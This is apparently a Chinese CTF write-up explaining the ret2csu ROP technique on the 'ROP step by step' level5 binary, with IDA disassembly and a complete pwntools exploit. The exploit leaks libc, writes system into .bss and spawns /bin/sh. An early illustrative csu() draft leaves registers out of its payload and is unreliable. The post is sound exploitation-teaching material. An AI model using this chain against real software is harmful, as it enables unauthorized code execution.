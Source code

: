```yaml
---
layout: post
title: "libc-csu x64利用"
subtitle: "libc-csu x64利用"
author: "Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - PWN
  - 二进制安全
---
```



题目链接：
==
https://github.com/zhengmin1989/ROP_STEP_BY_STEP/raw/master/linux_x64/level5
前言
--

- ret2libc 无有效gadgets的利用方式
- 在使用libc的elf程序里，都会加载libc_csu_init，不同版本函数不同，本文用蒸米的《一步一步学ROP》的第五关来看看。
- 先来看看libc_csu_init是啥，直接IDA：
```
.text:00000000004005A0 ; void _libc_csu_init(void)
.text:00000000004005A0                 public __libc_csu_init
.text:00000000004005A0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005A0
.text:00000000004005A0 var_30          = qword ptr -30h
.text:00000000004005A0 var_28          = qword ptr -28h
.text:00000000004005A0 var_20          = qword ptr -20h
.text:00000000004005A0 var_18          = qword ptr -18h
.text:00000000004005A0 var_10          = qword ptr -10h
.text:00000000004005A0 var_8           = qword ptr -8
.text:00000000004005A0
.text:00000000004005A0 ; __unwind {
.text:00000000004005A0                 mov     [rsp+var_28], rbp
.text:00000000004005A5                 mov     [rsp+var_20], r12
.text:00000000004005AA                 lea     rbp, cs:600E24h
.text:00000000004005B1                 lea     r12, cs:600E24h
.text:00000000004005B8                 mov     [rsp+var_18], r13
.text:00000000004005BD                 mov     [rsp+var_10], r14
.text:00000000004005C2                 mov     [rsp+var_8], r15
.text:00000000004005C7                 mov     [rsp+var_30], rbx
.text:00000000004005CC                 sub     rsp, 38h
.text:00000000004005D0                 sub     rbp, r12
.text:00000000004005D3                 mov     r13d, edi
.text:00000000004005D6                 mov     r14, rsi
.text:00000000004005D9                 sar     rbp, 3
.text:00000000004005DD                 mov     r15, rdx
.text:00000000004005E0                 call    _init_proc
.text:00000000004005E5                 test    rbp, rbp
.text:00000000004005E8                 jz      short loc_400606
.text:00000000004005EA                 xor     ebx, ebx
.text:00000000004005EC                 nop     dword ptr [rax+00h]
.text:00000000004005F0
.text:00000000004005F0 loc_4005F0:                             ; CODE XREF: __libc_csu_init+64↓j
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
.text:00000000004005F9                 call    qword ptr [r12+rbx*8]
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
.text:0000000000400606
.text:0000000000400606 loc_400606:                             ; CODE XREF: __libc_csu_init+48↑j
.text:0000000000400606                 mov     rbx, [rsp+38h+var_30]
.text:000000000040060B                 mov     rbp, [rsp+38h+var_28]
.text:0000000000400610                 mov     r12, [rsp+38h+var_20]
.text:0000000000400615                 mov     r13, [rsp+38h+var_18]
.text:000000000040061A                 mov     r14, [rsp+38h+var_10]
.text:000000000040061F                 mov     r15, [rsp+38h+var_8]
.text:0000000000400624                 add     rsp, 38h
.text:0000000000400628                 retn
.text:0000000000400628 ; } // starts at 4005A0
.text:0000000000400628 __libc_csu_init endp
```
- 可以看出来在最后一段是可以通过栈控制rbx,rbp,r12,r13,r14,r15
- 而linux下x64函数调用传参的顺序是rdi，rsi，rdx，rcx，r8，r9，后面都通过栈传递参数。
- 对比一下，好像并不能控制函数调用
但是4005F0处：
```
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
```
rdx = r15,rsi=r14,edi=r13d
rdi的低位=edi，所以同样能起到控制rdi的作用。
同时控制r12还能搞函数调用
```
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
```
只要控制rbx为0，rbp为1就行了
例题：
==
```C
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

def csu
--
直接构造payload就行，这里方便理解把栈图画出来
```python
def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)
    payload += p64(rbx)+p64(rbp)+p64(r13)+p64(r14)
    payload += p64(csu_start)
    payload += "a"*(6*8+8)
    payload += p64(main)
    s.sendline(payload)
```
在调用过libc_csu_init之后我们还需要把main函数覆盖到ret上，前面padding7*8个字节(6个寄存器+一个rbp)
所以得出：
	loc_400606 用来控制寄存器
	loc_4005F0 用来做函数调用
利用后的程序流程应该是：

vulnerable_function -> loc_400606 -> loc_4005F0 -> main -> vulnerable_function -> loc_400606 -> loc_4005F0 -> systemAddr

exploit
---
到这里就是基本操作了（看了别人的exp，比我写的好看多了QAQ
```python
from pwn import *

from LibcSearcher import LibcSearcher

import time

elf = ELF("level5")

proc = process("./level5")

write_got = elf.got["write"]

main = 0x0400564

padding = "a" * 0x88

csu_start = 0x4005F0

csu_end = 0x400606

def csu(rbx, rbp, r12, r13, r14, r15, ret):
	payload = ""
	payload += padding+p64(csu_end)
	payload += p64(0)
	payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
	payload += p64(csu_start)
	payload += "\x00" * (7*8)
	payload += p64(ret)
	proc.sendline(payload)

csu(0,1,write_got,1,write_got,8,main)

print proc.recvline()

write_addr = u64(proc.recvline()[0:8])

print hex(write_addr)

libc = LibcSearcher("write",write_addr)

libcbase = write_addr - libc.dump('write')

system = libcbase + libc.dump('system')

bin_sh = libcbase + libc.dump('str_bin_sh')

read_got = elf.got['read']

bss = 0x601028

csu(0,1,read_got,0,bss,16,main)

time.sleep(5)

proc.send(p64(system))

proc.send("/bin/sh"+"\x00")

csu(0,1,bss,bss+8,0,0,main)

proc.interactive()
```




```
